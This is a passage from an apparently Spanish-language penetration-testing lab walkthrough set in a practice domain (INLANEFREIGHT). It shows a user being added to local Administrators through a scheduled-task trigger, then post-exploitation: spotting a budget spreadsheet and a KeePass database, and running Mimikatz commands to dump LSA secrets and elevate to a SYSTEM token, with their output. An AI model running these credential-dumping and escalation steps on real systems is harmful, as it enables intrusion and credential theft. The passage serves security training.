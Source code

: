 Finalmente, para activar la tarea, crea un nuevo archivo .txt en el directorio `C:\Users\ilfserveradm\Documents`. Podemos verificar y ver que el usuario `ilfserveradm` fue agregado al grupo `Administrators`.

  Share Hunting

```r
C:\Users\ilfserveradm> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
ilfserveradm
INLANEFREIGHT\Domain Admins
The command completed successfully.
```

---

## Post-Exploitation/Pillaging

A continuación, realizaremos algunas actividades de post-explotación en el host MS01. Vemos un par de archivos interesantes en la raíz del disco c:\ llamados `budget_data.xlsx` y `Inlanefreight.kdbx` que valdría la pena revisar y potencialmente informar al cliente si no están en su ubicación prevista. Luego, podemos usar Mimikatz, elevar a un token `NT AUTHORITY\SYSTEM` y volcar secretos de LSA.

  Share Hunting

```r
c:\Users\ilfserveradm\Documents> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # log
Using 'mimikatz.log' for logfile : OK

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::secrets
Domain : ACADEMY-AEN-MS0
SysKey : 61b3d49a6205a1dedb14591c22d36afc
ERROR kuhl_m_lsadump_secretsOrCache ; kull_m_registry_RegOpenKeyEx (SECURITY) (0x00000005)

mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

564     {0;000003e7} 1 D 30073          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Primary
 -> Impersonated !
 * Process Token : {0;0136075a} 2 F 20322234    ACADEMY-AEN-MS0\ilfserveradm    S-1-5-21-1020326033-369054202-3290056218-1002   (14g,24p)       Primary
 * Thread Token  : {0;000003e7} 1 D 20387820    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

```